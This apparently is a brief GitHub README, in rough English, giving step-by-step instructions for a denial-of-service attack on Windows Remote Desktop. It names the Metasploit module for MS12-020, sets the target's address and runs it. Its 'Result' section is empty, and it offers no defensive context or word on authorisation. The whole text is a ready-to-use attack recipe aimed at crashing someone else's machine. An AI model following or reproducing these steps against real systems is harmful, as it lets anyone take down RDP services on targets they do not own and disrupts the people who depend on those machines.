

# DoS attack on windows
 
 - Attack in the Remote Desktop Protocol (RDP)

 - to work, is necessary allow remote assistance invitations to be sent from your target machine


 ### Starting attack

  - First: You need have de IP to your target on your hands

  - Do the exploit typing  ``` use auxiliary/dos/windows/rdp/ms12_020_maxchannelids ```
    

  - set rhosts ``` IP_TARGER ```
    

  - ``` run ```

   ### Result

   

  